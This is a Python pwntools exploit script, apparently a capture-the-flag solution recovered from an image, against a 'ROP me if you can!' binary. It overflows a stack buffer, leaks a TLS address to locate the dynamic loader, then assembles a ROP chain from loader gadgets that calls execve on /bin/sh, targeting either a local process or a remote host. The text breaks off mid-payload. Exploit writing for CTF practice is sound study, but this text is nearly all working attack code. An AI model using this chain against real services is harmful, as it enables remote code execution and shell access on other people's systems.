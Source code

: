 ```python
context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
ld = ELF("./ld-linux-x86-64.so.2")
rop = ROP(ld)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = flat(
        b"A" * 0x28,
        elf.plt["gets"],
        elf.plt["gets"],
        elf.plt["puts"],
        elf.sym["main"],
    )
    raw_input("DEBUG")
    target.sendlineafter(b"ROP me if you can!", payload)

    payload = flat(
        p32(0x0),  # lock
        b"A" * 0x4,  # cnt
    )
    target.sendline(payload)
    target.sendline(b"BBBB")

    target.recvline()
    tls = u64(target.recvline().strip()[8:].ljust(0x8, b"\x00"))
    ld = tls + 0xC8C0
    target.success(f"tls: {hex(tls)}")
    target.success(f"ld: {hex(ld)}")

    gets = 0x40114D
    payload = flat(
        b"A" * 0x20,
        elf.bss() + 0xF00,
        gets,
    )
    target.sendlineafter(b"ROP me if you can!", payload)

    payload = flat(
        b"A" * 0x20,
        b"/bin/sh\x00",
        ld + rop.find_gadget(["pop rdi", "pop rbp", "ret"])[0],
        elf.bss() + 0xF00,
        0x0,
        ld + rop.find_gadget(["pop rsi", "pop rbp", "ret"])[0],
        0x0,
        0x404F60,
        ld + rop.find_gadget(["pop rdx", "leave", "ret"])[0],
        0x0,
        ld + rop.find_gadget(["pop rax", "ret"])[0],
        0x3B,
        ld + rop.find_gadget(["syscall", "ret"])[0],
```